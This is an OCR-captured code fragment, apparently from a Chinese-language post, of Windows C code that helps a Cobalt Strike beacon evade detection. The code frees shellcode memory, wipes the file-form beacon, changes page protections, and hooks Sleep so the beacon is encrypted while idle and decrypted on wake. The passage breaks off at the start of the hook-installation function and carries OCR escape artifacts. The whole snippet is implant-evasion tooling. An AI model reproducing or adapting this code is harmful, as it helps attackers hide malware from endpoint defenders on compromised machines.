 ```php
    // 更新为已扫描内存  
    memoryInfo.isScanMemory \= TRUE;  
​  
    // 释放shellcode内存页  
    VirtualFree(memoryInfo.memoryPage\[0\].address, 0, MEM\_RELEASE);  
}  
​  
​  
/\*  
    beacon 运行时已经可以清除内存的其他痕迹了  
\*/  
void DeleteOther() {  
    //这里发现一个问题，memoryscan之后，beacon的地址不一定是在filebeacon之后，但是大小存在差异（拉伸后的size小于file的size）;  
//所以这比较一下最后两个页，size小的为拉伸后的beacon，也就是需要加密的，size大的为文件beacon 直接初始化并修改内存属性为rw；  
    MemoryAttrib beacon\_1 \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    MemoryAttrib beacon\_2 \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    //printf("beacon1.size : %d\\n", beacon\_1.size);  
    //printf("beacon2.size : %d\\n", beacon\_2.size);  
    if (beacon\_2.size \> beacon\_1.size) {  
        //printf("发生交换\\n");  
        MemoryAttrib beacon\_3 \= beacon\_2;  
        memoryInfo.memoryPage\[memoryInfo.index \- 1\] \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
        memoryInfo.memoryPage\[memoryInfo.index \- 2\] \= beacon\_3;  
    }  
​  
​  
    printf("FileBeacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 2\].address);  
    printf("Beacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 1\].address);  
​  
​  
    MemoryAttrib Beacon\_org \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    DWORD org\_bufSize \= Beacon\_org.size;  
    RtlSecureZeroMemory(Beacon\_org.address, org\_bufSize); // 文件形式的beacon消除  
    DWORD oldProt;  
    VirtualProtect(Beacon\_org.address, Beacon\_org.size, PAGE\_READWRITE, &oldProt);// 修改内存属性  
    printf("文件形式beacon已清除 \\n");  

    //RtlSecureZeroMemory(memoryInfo.shellcodeaddress,memoryInfo.shellcodesize ); // 残留的shellcode消除  
    printf("shellcode 地址：%x\\n", memoryInfo.shellcodeaddress);  
    memoryInfo.iscleaned \= TRUE;  
​  
​  
}  
//自定义函数指针函数  
static void(WINAPI\* OldSleep)(DWORD dwMilliseconds) \= Sleep;  
​  
void WINAPI My\_Sleep(DWORD dwMilliseconds) {  
    printf("调用sleep，休眠时间：%d\\n", dwMilliseconds);  
    //printf("oldsleep，地址是：0x%x\\n", OldSleep);  
    if (!memoryInfo.isScanMemory)   //扫描的动作只用发生一次  
        ScanMemoryMap();  
    if (!memoryInfo.iscleaned)  //清除动作只发生一次  
        DeleteOther();  
    My\_Encrypt();  
    OldSleep(dwMilliseconds);  
    My\_Decrypt();  
}  
​  
​  
void hookfun() {  
```